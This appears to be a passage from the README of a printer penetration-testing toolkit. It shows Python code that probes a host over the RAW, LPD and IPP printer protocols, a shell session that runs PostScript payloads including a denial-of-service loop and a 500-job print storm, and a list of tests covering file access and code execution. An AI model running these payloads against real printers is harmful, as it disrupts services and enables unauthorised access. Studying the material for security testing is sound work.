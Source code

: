 
### Example 4: Multi-Protocol Attack

```python
from protocols.raw import RAWProtocol
from protocols.lpd import LPDProtocol
from protocols.ipp import IPPProtocol

# Try each protocol
protocols = [
    RAWProtocol(host, 9100),
    LPDProtocol(host, 515),
    IPPProtocol(host, 631)
]

for proto in protocols:
    try:
        proto.connect()
        print(f"✅ {proto.__class__.__name__} works!")
    except:
        print(f"❌ {proto.__class__.__name__} failed")
```

---

### Example 5: Payload Execution

```bash
# Execute pre-built payload
192.168.1.100:ps> payload banner PRINTER COMPROMISED

# Execute loop (DoS)
192.168.1.100:ps> payload loop

# Execute print storm
192.168.1.100:ps> payload storm 500
```

---

## 🔐 SECURITY ENHANCEMENTS

### PostScript Security Testing

**New Tests Available:**
- Dictionary enumeration
- Operator availability testing
- File system access verification
- Password testing
- Code execution validation

### Attack Surface Expansion

